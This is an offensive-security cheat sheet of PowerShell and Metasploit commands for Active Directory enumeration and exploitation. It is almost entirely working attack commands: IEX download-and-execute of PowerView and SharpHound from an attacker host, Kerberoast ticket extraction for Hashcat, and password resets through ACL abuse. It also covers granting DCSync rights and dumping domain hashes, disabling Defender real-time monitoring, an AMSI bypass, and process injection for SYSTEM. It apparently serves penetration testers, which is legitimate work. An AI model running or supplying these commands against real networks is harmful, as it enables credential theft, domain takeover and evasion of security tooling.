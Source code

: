 ```yaml
---
description: >-
  This is just a living document of things I have needed for domain
  enumeration/exploitation
---
```


# Domain Enumeration + Exploitation

## POWERSPLOIT

Use the `dev` branch or [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/dev). For an already incredible cheat sheet, [check out HarmJ0y's](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993).

`IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')`

### Get Domain Users

`Get-NetUser * -Domain corp.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset, lastlogontimestamp,accountexpires,admincount,userprincipalname, serviceprincipalname, mail,useraccountcontrol | Export-CSV users.csv`

### Get Domain Computers

`Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv`

### SPN Ticket Request

`Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation`

### Enumerate User DACLs

```text
PS C:\> Get-DomainObjectAcl -Identity it_admin -ResolveGUIDs ? { $_.SecurityIdentifier -Match $(ConvertTo-SID burmat) }

AceType               : AccessAllowed
ObjectDN              : CN=it_admin,CN=Users,DC=BURMAT,DC=CO
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-2736429227-4547413232-2815246478-1130
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-2736429227-4547413232-2815246478-1107
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
```

### Reset Domain User Password

If you own the owner of another AD user object \(`WriteOwner`, `WriteDACL`, `GenericWrite`, `Owner`, etc\), you can reset the password with ease:

```text
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')

$user = 'DOMAIN\owner_acct'; 
$pass= ConvertTo-SecureString 'Password123!' -AsPlainText -Force; 
$creds = New-Object System.Management.Automation.PSCredential $user, $pass;

$newpass = ConvertTo-SecureString 'burmatw@sh3r3' -AsPlainText -Force; 

Set-DomainUserPassword -Identity 'DOMAIN\vuln_user' -AccountPassword $newpass -Credential $creds;
```

Or if you can set yourself as owner, the following will do:

```text
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')
Set-DomainObjectOwner -Identity it_admin -OwnerIdentity burmat
Add-DomainObjectAcl -TargetIdentity it_admin -PrincipalIdentity burmat
$newpass = ConvertTo-SecureString -String 'burmat123$' -AsPlainText -Force
Set-DomainUserPassword -Identity it_admin -AccountPassword $newpass
```

### Add/Exploit DCSync Rights

Do you have `WriteDACL` to a domain? Give DCSync rights to an unprivileged domain user account:

`Add-DomainObjectAcl -TargetIdentity "DC=burmatco,DC=local" -PrincipalIdentity useracct1 -Rights DCSync`

And use these rights to dump the hashes from the domain:

`meterpreter > dcsync_ntlm BURMATCO\\useracct1`

## BLOODHOUND

### Ingestor Launch

```text
IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.123/ps/SharpHound.ps1');
Invoke-BloodHound -CollectionMethod All -CompressData -SkipPing;
```

## EVADING AV

### Checking Status

```text
# is av enabled:
PS C:\> Get-MpComputerStatus

# applocker rules:
PS C:\> $a = Get-ApplockerPolicy -effective
PS C:\> $a.rulecollections

# constrained?:
PS C:\> $ExecutionContext.SessionState.LanguageMode
```

### Turning Off Defender's RTM

`PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus`

### AMSI Bypass

```text
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```

## SeDebugPrivilege

If you run `whoami /priv` and you see `SeDebugPrivilege` set to `Enabled`, you can assume you already have SYSTEM.  

One way of doing it, is using [decoder](https://twitter.com/decoder_it)'s `psgetsys.ps1` [script](https://github.com/decoder-it/psgetsystem) once you have a good idea on a PID to inject:  

`. .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(7864,'C:\temp\burmat443.exe');`

You can also gain a MSF session and use the module `windows/manage/payload_inject` with a PID of your choice.

## REMOTE DESKTOP

### Enable RDP

```text
PS C:\> Set-itemproperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\' -Name "fDenyTSConnections" -value 0
PS C:\> Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\' -Name "UserAuthentication" -value 1
PS C:\> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

## MISCELLANEOUS 

```text
# list shared folders
PS> Get-WmiObject -Class Win32_Share -Computer dc1.burmat.co
```

